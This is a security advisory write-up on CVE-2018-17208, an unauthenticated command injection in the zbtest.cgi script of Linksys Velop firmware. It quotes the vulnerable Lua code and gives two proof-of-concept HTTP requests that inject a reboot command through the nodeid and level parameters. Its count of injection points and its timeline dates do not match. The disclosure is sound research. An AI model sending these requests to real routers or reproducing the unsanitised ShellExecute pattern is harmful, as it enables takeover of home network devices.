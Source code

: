 ```yaml
---
published: true
categories: [vulnerability,Linksys]
tags: [CVE-2018-17208]
---
```


### Affected Software
Firmware version:	The firmware version which I test is 1.1.2.185309
### Product Background
Velop is WHOLE HOMEMESH Wi-Fi system from LINKSYS. It allows users enjoy fast, nonstop Wi-Fi everywhere with Velop’s modular easy-to-use Wi-Fi Mesh system.
There are three categories from their official site :WHW0303,WHW0302,WHW0301. The differences between these three is the pack count: 1, 2 or 3. The system are the same.
### Vulnerability Details
CVE-2018-17208

Since this bug is very easy and there is another researcher has (published)[https://langkjaer.com/velop.html] the anlysis, so I wont analyze it too much.

zbtest.cgi in /cgi-bin/ is a lua script and we took a look into it. The most interesting part starts from line 480:
~~~lua
-- Here is a some code that can control bulb
cmd = params["cmd"]
node_id = params["nodeid"]
level = params["level"]

if cmd == nil then
  node_id = nil
  start_zb_network()
  print("Run zbtest.cgi<br>")
elseif cmd == "permit" then
  permit_zb_network()
  print("Run permit command<br><br>")
elseif cmd == "rescan" then
  print("Run rescan command<br><br>")
  node_id = nil
elseif cmd == "remove" and node_id then
  print("Run remove command : "..node_id.."<br><br>")
  remove_bulbs(node_id)
  node_id = nil
elseif cmd == "on" and node_id then
  print("Run turn on command : "..node_id.."<br><br>")
  name = "/tmp/Belkin_settings/zbdev."..node_id..".state"
  ShellExecute("zbapitest on-off "..node_id.." 1 > "..name.." 2>&1")
  bulbs, err = table.load("/tmp/Belkin_settings/bulbs.tlb")
  bulbs[node_id].onoff = "1"
  table.save(bulbs, "/tmp/Belkin_settings/bulbs.tlb")
elseif cmd == "off" and node_id then
  print("Run turn off command : "..node_id.."<br><br>")
  name = "/tmp/Belkin_settings/zbdev."..node_id..".state"
  ShellExecute("zbapitest on-off "..node_id.." 0 > "..name.." 2>&1")
  bulbs, err = table.load("/tmp/Belkin_settings/bulbs.tlb")
  bulbs[node_id].onoff = "0"
  table.save(bulbs, "/tmp/Belkin_settings/bulbs.tlb")
elseif cmd == "level" and level and node_id then
  print("Run level ("..level..") command : "..node_id.."<br><br>")
  -- name = "/tmp/Belkin_settings/zbdev."..node_id..".state"
  -- ShellExecute("zbapitest level "..node_id.." "..level.." 0 > "..name.." 2>&1")
  ShellExecute("zbapitest level "..node_id.." "..level.." 0 1")
  bulbs, err = table.load("/tmp/Belkin_settings/bulbs.tlb")
  bulbs[node_id].level = level
  table.save(bulbs, "/tmp/Belkin_settings/bulbs.tlb")
end
~~~

We can deliver 3 parameters to the zbtest.cgi: cmd, nodeid and level. There are 5 command injection problems in this code snippet.

- cmd with "remove", no check of node_id
- cmd with "on", no check of node_id
- cmd with "off", no check of node_id
- cmd with "level", no check of node_id and level

#### PoC
~~~http
GET /cgi-bin/zbtest.cgi?cmd=off&nodeid=|reboot| HTTP/1.1
Host: 192.168.1.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
DNT: 1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: visited-index=true
Connection: close
~~~

~~~http
GET /cgi-bin/zbtest.cgi?cmd=level&nodeid=0x0&level=1|reboot| HTTP/1.1
Host: 192.168.1.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
DNT: 1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: visited-index=true
Connection: close
~~~

### Timeline

We reported the bug to the vendor in Feb,2019 and they released a patch in August:

~~~text
2018.04.04: Found the bug

2018-09-19: Another researcher published the bug with link: link](https://langkjaer.com/velop.html)
~~~